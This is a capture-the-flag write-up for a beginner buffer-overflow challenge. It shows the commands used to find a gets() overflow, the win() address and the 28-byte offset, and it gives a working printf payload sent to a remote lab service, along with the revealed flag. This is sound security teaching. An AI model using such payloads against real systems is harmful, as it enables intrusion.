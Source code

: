 ## PWN-0: System Exploitation
**Description:**  
A binary exploitation challenge that involves triggering a buffer overflow to hijack execution flow and call a hidden `win()` function.
<details> <summary><b>Reveal Flag</b></summary>
flag{47ea70cf08}
</details></br>

**Solution Summary:**
- Discovered a vulnerable C program with no protection mechanisms.
- Identified a classic buffer overflow in the `main()` function.
- Used `objdump` to locate the address of the hidden `win()` function.
- Crafted a payload to overflow the buffer and redirect execution to `win()`.

**Exploitation Steps:**
1. Reviewed the C source file:
    ```bash
    cat /ctf/vulnerable.c
    ```
    Identified a vulnerable `gets()` call in `main()` with no bounds checking.

2. Following the challenge instructions I compiled the binary:
    ```bash
    cd /ctf
    make
    ```
3. Analyzed the binary with objdump to locate the address of the win() function:
    ```bash
    objdump -d ./vulnerable | grep win
    ```
    Output:
    ```plaintext
    080491a5 <win>:
    ```
4. Determined the buffer offset required to reach the return address:
    - Sent a full alphabet string as input to identify where the overflow occurred:
      ```bash
      echo "ABCDEFGHIJKLMNOPQRSTUVWXYZ" | ./vulnerable
      ```
   - Loaded the binary in GDB with verbose output:
     ```bash
     gdb ./vulnerable
     (gdb) set verbose on
     (gdb) run < input.txt
     ```
   - After the crash, inspected the instruction pointer (EIP) to see which part of the input overwrote it:
     ```bash
     (gdb) info registers
     ```
    - Based on the position of the overwritten value, determined that **28 bytes** were required to reach the return address.

5. Constructed the exploit payload using **28 bytes** of padding and the `win()` function address in little-endian format. Tested it locally:`
    ```bash
    printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x91\x04\x08" | ./vulnerable
    ```
    ✅ Success — execution flow was redirected to the win() function!
    ![img](../images/PWN-0.jpg) 

6. Reused the payload to exploit the remote binary over the network at `192.168.1.2` on port `9999`, successfully retrieving the flag.
    ![img](../images/PWN-0a.jpg)
